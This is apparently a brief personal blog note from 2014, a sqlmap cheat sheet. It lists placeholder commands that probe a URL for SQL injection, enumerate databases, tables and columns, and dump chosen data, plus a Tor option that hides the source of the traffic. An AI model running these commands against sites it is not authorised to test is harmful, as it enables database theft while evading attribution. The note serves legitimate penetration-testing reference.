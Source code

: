 Title: sqlmap Cheat Sheet  
Date: 2014-12-01 05:04  
Author: m157q  
Category: Note  
Tags: SQL Injection, sqlmap, Security  
Slug: sqlmap-cheat-sheet  
  
  
# Usage  
  
+ `$ sqlmap -u ${url}`  
+ `$ sqlmap -u ${url} --dbs`  
+ `$ sqlmap -u ${url} -D ${database} --tables`  
+ `$ sqlmap -u ${url} -D ${database} -T ${table} --columns`  
+ `$ sqlmap -u ${url} -D ${database} -T ${table} -C ${col1},${col2} --dump`  
  
  
# Options  
  
+ `--tor --tor-type=SOCKS5`  
  
  
# References  
  
+ [sqlmap注入常见用法一条龙](http://www.nigesb.com/sqlmap-common-usage-and-examples.html)  
+ [sqlmap - Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)  
+ [An Old man lab0ratory: Sqlmap tutorial - you are just unavoidable](http://oldmanlab.blogspot.tw/2012/03/sqlmap-tutorial-you-are-just.html)  
